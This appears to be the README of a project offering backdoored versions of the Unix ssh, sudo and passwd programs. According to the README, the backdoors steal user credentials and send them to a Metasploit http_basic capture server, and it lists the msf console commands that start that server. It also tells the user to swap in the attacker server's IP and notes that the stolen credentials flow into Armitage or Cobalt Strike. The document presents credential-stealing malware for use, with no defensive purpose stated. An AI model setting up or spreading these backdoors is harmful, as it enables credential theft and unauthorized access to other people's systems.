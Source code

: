 Nix Backdoors
=============
ssh, sudo, and passwd

Steals creds and sends them to the http_basic server in metasploit:
'''
msf > use auxiliary/server/capture/http_basic
msf auxiliary(http_basic) > set URIPATH /
msf auxiliary(http_basic) > run
'''

Make sure to replace metasploit.http.serv.ip in the code with the ip that the server is running on
Creds will automatically be imported into the cred database of an Armitage or Cobalt Strike server
passwd is by far the most complex and effective
